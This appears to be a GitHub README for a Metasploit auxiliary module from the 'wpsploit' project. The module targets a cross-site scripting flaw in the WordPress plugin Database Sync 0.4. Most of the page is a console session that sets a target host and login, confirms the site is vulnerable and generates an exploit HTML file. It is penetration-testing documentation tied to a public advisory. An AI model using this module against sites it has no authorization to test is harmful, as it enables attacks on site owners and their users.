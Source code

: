 #### Add WordPress Plugin Database Sync XSS Vulnerability.

  Application: WordPress Plugin 'Database Sync' 0.4
  Homepage: https://wordpress.org/plugins/database-sync
  Source Code: https://downloads.wordpress.org/plugin/database-sync.0.4.zip
  References: https://wpvulndb.com/vulnerabilities/8127
  Active Install: +1.000

#### Vulnerable packages*
        
  0.4

#### Module

  [wp_database_sync_xss_scanner.rb](https://github.com/espreto/wpsploit/blob/master/modules/auxiliary/scanner/http/wordpress/wp_database_sync_xss_scanner.rb)
  
#### Usage:

##### Linux (Ubuntu 14.04.2 LTS):
```
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf>  use auxiliary/scanner/http/wp_database_sync_xss_scanner 
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  show options 

Module options (auxiliary/scanner/http/wp_database_sync_xss_scanner):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host
   WP_PASS                     no        A valid password
   WP_USER                     no        A valid username

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  info

       Name: WordPress Database Sync XSS Scanner
     Module: auxiliary/scanner/http/wp_database_sync_xss_scanner
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2015-08-04

Provided by:
  Morten Nørtoft, Kenneth Jepsen & Mikkel Vej
  Roberto Soares Espreto <robertoespreto@gmail.com>

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target address range or CIDR identifier
  RPORT      80               yes       The target port
  TARGETURI  /                yes       The base path to the wordpress application
  THREADS    1                yes       The number of concurrent threads
  VHOST                       no        HTTP server virtual host
  WP_PASS                     no        A valid password
  WP_USER                     no        A valid username

Description:
  This module attempts to exploit an Cross-Site Scripting in Database 
  Sync Plugin for WordPress, version 0.4 and likely prior in order if 
  the instance is vulnerable.

References:
  https://wpvulndb.com/vulnerabilities/8127
  https://packetstormsecurity.com/files/132907/

msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set RHOSTS 10.10.10.20
RHOSTS => 10.10.10.20
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_USER espreto
WP_USER => espreto
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  set WP_PASS R@x0rP@55
WP_PASS => R@x0rP@55
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  check
[*] 10.10.10.20:80 - The target appears to be vulnerable.
[*] Checked 1 of 1 hosts (100% complete)
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner)  run

[+] 10.10.10.20:80 - Vulnerable to Cross-Site Scripting the Database Sync 0.4 plugin for WordPress
[+] Save in: /home/espreto/.msf4/local/script.html
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msfdevel 10.10.10.10 shell[s]:0 job[s]:0 msf> auxiliary(wp_database_sync_xss_scanner) firefox /home/espreto/.msf4/local/script.html
```
This will open the browser:

![XSS](../images/wp_database_sync_xss_scanner.png)
